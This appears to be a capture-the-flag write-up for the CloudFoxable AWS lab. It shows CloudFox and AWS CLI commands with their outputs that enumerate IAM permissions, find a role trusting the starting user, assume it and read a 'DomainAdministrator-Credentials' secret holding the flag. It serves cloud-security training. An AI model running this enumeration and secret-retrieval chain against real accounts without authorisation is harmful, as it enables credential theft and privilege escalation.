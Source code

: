 
# 🔐 CloudFoxable Challenge: Retrieving AWS Secrets Manager Flag

## 🧾 Overview

In this CloudFoxable challenge, the task involved identifying and assuming an AWS IAM role capable of retrieving a specific secret (`DomainAdministrator-Credentials`) from AWS Secrets Manager. This scenario simulated a realistic cloud penetration test, focusing on enumerating permissions, analyzing IAM trust relationships, assuming roles, and retrieving sensitive information (flag).

---

## 🎯 Objectives

Through this challenge, I aimed to:

- Identify IAM roles with permissions to access a specific AWS Secrets Manager secret.
- Analyze IAM trust relationships to understand which users could assume specific roles.
- Inspect IAM policies to confirm detailed permissions explicitly granted.
- Assume a role based on IAM trust policy findings.
- Retrieve the secret (flag) using AWS CLI.

---

## 🚩 Detailed Steps and Expected Outputs

### Step 1: Enumerating Permissions with CloudFox

**Command:**
```bash
cloudfox aws -p cloudfoxable permissions -v2 | grep -i secret
```

**Expected Output (Anonymized AWSACCOUNT):**
```
Role │ Alexander-Arnold │ Allow │ secretsmanager:GetSecretValue │ arn:aws:secretsmanager:us-west-2:AWSACCOUNT:secret:DomainAdministrator-Credentials-xxxxxx
```

### Step 2: Analyzing IAM Trust Relationships

**Command:**
```bash
cloudfox aws -p cloudfoxable role-trusts -v2
```

**Expected Output:**
```
Role: Alexander-Arnold
Trusts: arn:aws:iam::AWSACCOUNT:user/ctf-starting-user
```

### Step 3: Listing Attached IAM Policies

**Command:**
```bash
aws --profile cloudfoxable iam list-attached-role-policies --role-name Alexander-Arnold
```

**Expected Output:**
```json
{
  "AttachedPolicies": [
    {
      "PolicyName": "corporate-domain-admin-password-policy",
      "PolicyArn": "arn:aws:iam::AWSACCOUNT:policy/corporate-domain-admin-password-policy"
    }
  ]
}
```

### Step 4: Retrieving IAM Policy Metadata

**Command:**
```bash
aws --profile cloudfoxable iam get-policy --policy-arn arn:aws:iam::AWSACCOUNT:policy/corporate-domain-admin-password-policy
```

**Expected Output:**
```json
{
  "Policy": {
    "PolicyName": "corporate-domain-admin-password-policy",
    "Arn": "arn:aws:iam::AWSACCOUNT:policy/corporate-domain-admin-password-policy",
    "DefaultVersionId": "v1",
    "AttachmentCount": 1,
    "IsAttachable": true,
    "CreateDate": "2025-03-05T22:48:54+00:00",
    "UpdateDate": "2025-03-05T22:48:54+00:00"
  }
}
```

### Step 5: Inspecting IAM Policy Permissions

**Command:**
```bash
aws --profile cloudfoxable iam get-policy-version \
  --policy-arn arn:aws:iam::AWSACCOUNT:policy/corporate-domain-admin-password-policy \
  --version-id v1
```

**Expected Output:**
```json
{
  "PolicyVersion": {
    "Document": {
      "Statement": [
        {
          "Action": ["secretsmanager:GetSecretValue"],
          "Effect": "Allow",
          "Resource": [
            "arn:aws:secretsmanager:us-west-2:AWSACCOUNT:secret:DomainAdministrator-Credentials-xxxxxx"
          ]
        }
      ],
      "Version": "2012-10-17"
    },
    "VersionId": "v1",
    "IsDefaultVersion": true,
    "CreateDate": "2025-03-05T22:48:54+00:00"
  }
}
```

### Step 6: Assuming Role & Retrieving the Secret (Flag)

**Command:**
```bash
aws --profile Alexander-Arnold secretsmanager get-secret-value \
  --secret-id arn:aws:secretsmanager:us-west-2:AWSACCOUNT:secret:DomainAdministrator-Credentials-xxxxxx \
  --region us-west-2
```

**Expected Output (Flag):**
```json
{
  "ARN": "arn:aws:secretsmanager:us-west-2:AWSACCOUNT:secret:DomainAdministrator-Credentials-qc9Cvn",
    "Name": "DomainAdministrator-Credentials",
    "VersionId": "744ABAF0-0338-4ADD-99A5-A98DC465B202",
    "SecretString": "FLAG{backwards::IfYouFindSomethingInterstingFindWhoHasAccessToIt}",
    "VersionStages": [
        "AWSCURRENT"
    ],
    "CreatedDate": "2025-03-05T17:48:53.890000-05:00"
}
```

---

## ❓ Challenge Questions & Answers

**Q1:** Why did I need to inspect both permissions and IAM role trust policies?  
**A:** To ensure I identified not only which role could access the secret but also whether my IAM user had permission (trust) to assume that role.

**Q2:** What risk arises if an IAM role trust policy is overly permissive?  
**A:** Overly permissive trust policies can lead to privilege escalation, allowing unintended users or roles to assume high-privileged roles, potentially compromising sensitive data or resources.

**Q3:** Why is it essential to explicitly specify resources in IAM policies?  
**A:** Explicit resource definitions prevent unintended access, reducing security risks and adhering to the principle of least privilege.

**Q4:** Can a user assume a role without having explicit `sts:AssumeRole` permissions in their IAM policy?  
**A:** Yes. If a user's ARN is explicitly included as a trusted principal in the role's trust policy, they can assume the role without explicit `sts:AssumeRole` permission.

**Q5:** How does CloudFox support effective cloud security enumeration and analysis?  
**A:** CloudFox automates the enumeration and visualization of IAM permissions, trust relationships, and potential misconfigurations, significantly improving cloud security visibility and identifying privilege escalation paths quickly.

---

## 🎓 What I Learned

Through this challenge, I learned:

- How to effectively enumerate AWS permissions and trust relationships using CloudFox.
- The importance of clearly defined IAM permissions and trust policies in AWS security.
- Practical AWS CLI commands for analyzing IAM roles, policies, and retrieving secrets.
- The real-world implications of IAM misconfigurations and the importance of the least privilege principle.

---

## ✅ Conclusion

This CloudFoxable challenge provided a practical, hands-on opportunity to explore AWS IAM permissions and trust relationships, demonstrating realistic cloud security enumeration, privilege escalation, and secret retrieval processes. I significantly strengthened my AWS security and IAM skills, essential for cloud security professionals and penetration testers.

---

### 📚 References & Tools

- **CloudFox:** [https://github.com/BishopFox/cloudfox](https://github.com/BishopFox/cloudfox)
- **AWS CLI IAM Documentation:** [AWS IAM CLI](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/iam/index.html)
- **AWS Secrets Manager CLI:** [AWS Secrets Manager CLI](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/secretsmanager/index.html)

---

*Prepared by: Ashish Gurau*  
*Cloud Security & IAM Enumeration Walkthrough*
